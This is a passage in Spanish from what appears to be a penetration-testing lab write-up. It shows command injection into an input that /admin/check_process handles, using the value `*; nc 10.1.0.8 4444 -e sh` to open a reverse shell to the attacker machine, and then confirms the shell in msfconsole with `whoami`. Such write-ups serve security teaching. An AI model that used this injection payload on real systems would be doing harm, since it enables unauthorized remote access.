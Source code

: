 Ahora ingresamos el valor en el input para que /admin/check_process pueda ejecutarse y (V) se conecte a la máquina atacante (A)

Entonces el valor insertado para conectarnos a la shell reversa `*; nc 10.1.0.8 4444 -e sh`

<figure>
<img src="./attachments/fig20.png" alt="alert">
</figure>

Observamos en msfconsole que tenemos la conexión establecida

<figure>
<img src="./attachments/fig21.png" alt="session opened">
</figure>

Ingresamos mediante el uso de la sesión y probamos usar `whoami` para ver el usuario
<figure>
<img src="./attachments/fig22.png" alt="execute whoami command">
</figure>

